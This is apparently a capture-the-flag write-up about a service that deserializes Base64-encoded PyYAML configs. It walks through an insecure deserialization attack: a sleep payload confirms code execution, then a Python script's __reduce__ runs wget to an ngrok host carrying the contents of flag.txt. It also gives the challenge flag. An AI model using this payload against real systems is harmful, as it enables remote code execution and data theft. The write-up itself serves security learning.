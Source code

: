 When we connect to this service we have a system that allows us to create a config and load a config.

![image](https://user-images.githubusercontent.com/80063008/227539600-3c19ff02-4213-4c1d-9c75-b9d48dfad460.png)

Creating a config gives us some serialized Base64 encoded data. Decoding the data, we notice it is python serialized data.

![image](https://user-images.githubusercontent.com/80063008/227539798-c86c3c60-8531-4827-9d0a-fedd78e6ceb3.png)

Some research online reveals this is pyyaml serialization. We can find some payloads to test here:
https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#summary

Starting slowly with a sleep command:

```python
!!python/object/apply:time.sleep [10]
```
We Base64 encode and send it as input to the `Load Config` option and the server hangs for 10 seconds confirming we have command execution.

I then used this script to exfiltrate the flag:

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import os
import base64

class Payload(object):
    def __reduce__(self):
        return (os.system,('wget https://e7f1-86-121-46-6.eu.ngrok.io/`cat flag.txt`',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(base64.b64encode(deserialized_data.encode()).decode())
```

This creates the Base64 encoded data I need to send. Once I do, I get the flag in my python listener:

![image](https://user-images.githubusercontent.com/80063008/227540727-2217b1ae-01cf-47fe-957a-5fcf10a71b6c.png)

HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
